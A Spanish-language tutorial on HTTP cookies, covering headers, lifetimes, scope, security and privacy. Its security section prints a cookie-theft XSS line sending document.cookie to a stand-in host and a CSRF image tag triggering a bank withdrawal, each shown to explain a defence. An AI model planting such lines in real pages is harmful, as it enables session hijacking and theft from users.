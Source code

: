 # Las cookies HTTP

Las cookies HTTP son un pequeño pedazo de datos que un servidor manda al navegador de los usuarios, el
cual puede almanecarlo y volver a enviarlo junto con las siguientes peticiones a ese mismo servidor.
De forma general, son unadas para saber si dos peticiones vienen del mismo navegador (usuario) y
permitirle seguir con la sesión iniciada mientras navega por la web del servidor. Son una forma de
aportar persistencia a los datos, cosa que HTTP no soporta de forma nativa.

## Usos de las cookies:

Los usos más comunes de las cookies son:
* Administración de sesiones (Inicios de sesión de usuarios, carritos de compra...)
* Personalización (Preferencias de los usuarios)
* Seguimiento (Análisis del comportamiento de los usuarios)

En el pasado las cookies también se usaban como un medio de almacenamiento del lado del cliente, pero,
con la aparición de mejores alternativas (Web Storage API e IndexedDB) no tiene sentido usarlas con
este propósito, además, al enviarse las cookies con cada solicitud (request), pueden ocasionar un mal
rendimiento o una pérdida de datos móviles para los usuarios.

## Creación de cookies:

Cuando se recibe una petición HTTP, un servidor puede enviar una cabecera `set-cookie` con la
respuesta. Esta cookie generalmente es almacenada por el cliente y mandada con cada nueva petición al
mismo server mediante una cabecera `Cookie HTTP`. Además, se puede establecer un periodo de validez de
la misma, así como restricciones a dominios y rutas específicos.

### Las cabeceras `Set-Cookie`y `Cookie`

La cabecera de respuesta HTTP `Set-Cookie` es usada para mandar cookies desde el servidor al navegador del usuario. Una cookie simple se puede mandar de la siguiente manera:

`Set-Cookie: <cookie-name>=<cookie-value>`

El servidor dice al navegador que guarde una cookie. La respuesta del servidor será, en esencia, algo
así:

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
```

Ahora, con cada petición a ese server, el navegador mandará todas las cookies anteriormente
establecidas para ese servidor usando la cabecera `Cookie`:

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

### Cookies de sesión

La cookie creada en los ejemplos anteriores es una cookie de sesión (session cookie). Será borrada
cuando el cliente sea cerrado, por tanto, su ciclo de vida es sólo la sesión del cliente. Esto es así
porque no especifican ninguna directiva `Expires` o `Max-Age`. Sin embargo, en la actualidad muchos
navegadores ofrecen el servicio de restaurar la sesión, por lo que las cookies de este tipo se
comportarían como si fueran permanentes.

### Cookies permanentes

En lugar de expirar cuando el cliente es cerrado, las cookies permanentes expiran en una fecha
determinado (`Expires`) o tras un tiempo determinado (`Max-Age`)

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

### Cookies seguras y HttpOnly

Una cookie segura sólo será enviada al servidor si la petición se hace mediante SSL y HTTPS. Es
importante destacar que no se deben mandar o transmitir mediante Cookies HTTP, puesto que este
protocolo no ofrece ningún tipo de seguridad.

Para prevenir ataques XSS, las cookies HTTP-Only no son accesibles via Javascript a través de
`Document.cookie`, `XMLHHttpRequest` o la API `Request`. Esta característica es conveniente cuando el
contenido de las cookies no va a ser usado por JavaScript (Por ejemplo, para cookies que definen una
sesión)

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly`

### Ambiente de las cookies

Las directivas `Domain` y `Path` definen el ambiente de la cookie, o lo que es lo mismo, el conjunto
de URLs a las que las cookies deben mandarse.

`Domain` especifica aquellos hotsts a los que la cookie será enviada. Si no se especifica, por defecto
es la parte del host de la localización del documento actual, pero sin incluir subdominios. Cuando se
especifica el host, sí se incluyen los subdominios.

Si se especifica `Domain=mozilla.org`, las cookies son incluídas en subdominios como
`developer.mozilla.org`.

`Path` indica una ruta que debe existir en la petición si se quiere mandar una cookie a esa dirección.
El caracter '/' se interpreta como separador de directorios, los subdirectorios serán también válidos.

Si se establece `Path=/docs` las siguientes rutas serán aceptadas:

* "/docs"
* "/docs/web"
* "/docs/web/HTTP"

### Cookies SameSite (API EXPERIMENTAL)

Las cookies `SameSite` permiten a los servidores afirmar que una cookie no debe ser enviada con
peticiones de sitios cruzados. Esto da alguna protección frente a ataques CSRF.

### Acceso desde JavaScript usando Document.cookies

Nuevas cookies pueden ser creadas usando la propiedad `Document.cookie` y si la propiedad `HttpOnly`
no está activada, cookies existentes también pueden ser accedidas de esta manera.

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```
Es importante destacar que esto conlleva riesgos en seguridad, puesto que estas cookies podrían ser
robadas mediante XSS.

## Seguridad

### Secuestro de sesión y XSS

Las cookies, como se ha dicho, son usadas muchas veces en una aplicación web para identificar a un
usuario y su sesión autentificada. Por este motivo, el robo de estas cookies puede suponer un posible
secuestro de la sesión autentificada del usuario. Una vía común para robar cookies es usando XSS o
ingeniería social.

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
Una forma de evitar este riesgo es `HttpOnly`

### CSRF

Un buen ejemplo de CSRF puede ser una imagen que en realidad no lo sea, sino que el link a seguir sea
una petición a tu banco para que mandes dinero:

```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
Si estás logeado en el banco y las cookies todavía son válidas (y no hay más validaciones), se hará la transferencia tan pronto como cargues el HTML. Algunas formas de evitarlo son:

* El filtrado de la entrada
* Requerir confirmaciones para operaciones delicadas
* Las cookies usadas para operaciones delicadas deberían tener un corto periodo de vida.

## Seguimiento y privacidad

### Cookies "third-party"
Las cookies tienen un dominio asociado. Si ese dominio es el mismo que el dominio de la página en la
que estás, a estas cookies se les llama cookies "fist-party". Si es diferentes, son "third-party".

Mientras que las cookies "first-party" son mandadas sólo al servidor que las pone, una página web
puede contener imágenes u otros componentes en otros servidores. Las cookies mandadas a través de
estos componentes ajenos son llamadas "third-party" y son usadas generalmente para publicidad y
Seguimiento a través de la web. La mayoría de los navegadores permite las cookies "third-party" por
defecto, pero hay addons para bloquearlas.

El uso de estas cookies debe ser advertido para no dañar la confianza de los usuarios, además, existen
países con legislaciones al respecto.

### Do-Not-Track

No hay requerimientos legales o tecnológicos para su uso, pero la cabecera DNT puede ser usada para
señalar que una aplicación web debe deshabilitar su seguimiento o su seguimiento entre distintos
sitios para un usuario individual.

### Directiva europea de cookies

Los estados miembros europeos deben legislar a partir de esta directiva para asegurar que no se pueden
almacenar datos de un usuario sin el consentimiento explícito del mismo.

### Cookies zombies y Evercookies

Una aproximación más radical a las cookies son las Cookies zombies o Evercookies, las cuales son
recreadas tras su eliminación y son intencionadamente difíciles de eliminar. Se usan mediante la API
`Web storage API`, `Flash Local Shared Objects` y otras técnicas.
